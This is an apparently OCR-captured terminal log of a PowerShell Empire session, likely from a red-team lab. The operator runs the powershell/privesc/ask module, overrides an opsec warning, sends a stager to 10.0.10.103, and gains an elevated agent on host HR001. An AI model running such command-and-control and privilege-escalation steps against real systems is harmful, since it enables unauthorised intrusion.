 ```
  UserAgent  False       default                   User-agent string to use for the staging
                                                   request (default, none, or other).      
  Proxy      False       default                   Proxy to use for request (default, none,
                                                   or other).                              
  Agent      True        H3DKB8SA                  Agent to run module on.                 
  ProxyCreds False       default                   Proxy credentials                       
                                                   ([domain\]username:password) to use for 
                                                   request (default, none, or other).      

(Empire: powershell/privesc/ask) > set Listener https
(Empire: powershell/privesc/ask) > execute
[>] Module is not opsec safe, run? [y/N] y
[*] Tasked H3DKB8SA to run TASK_CMD_JOB
[*] Agent H3DKB8SA tasked with task ID 2
[*] Tasked agent H3DKB8SA to run module powershell/privesc/ask
(Empire: powershell/privesc/ask) > Job started: PDY4F2
[*] Sending POWERSHELL stager (stage 1) to 10.0.10.103
[*] New agent TKV35P8X checked in
[+] Initial agent TKV35P8X from 10.0.10.103 now active (Slack)
[*] Sending agent (stage 2) to TKV35P8X at 10.0.10.103
[*] Successfully elevated!


(Empire: powershell/privesc/ask) > agents

[*] Active agents:

 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen            Listener
 ----     -- -----------     ------------      --------                -------            ---    -----    ---------            ----------------
 H3DKB8SA ps 172.18.39.106   HR001             SHIRE\nmartha           powershell         5172   5/0.0    2019-05-18 18:37:11  https           
 TKV35P8X ps 172.18.39.106   HR001             *SHIRE\nmartha          powershell         5452   5/0.0    2019-05-18 18:37:10  https           

(Empire: agents) >
```

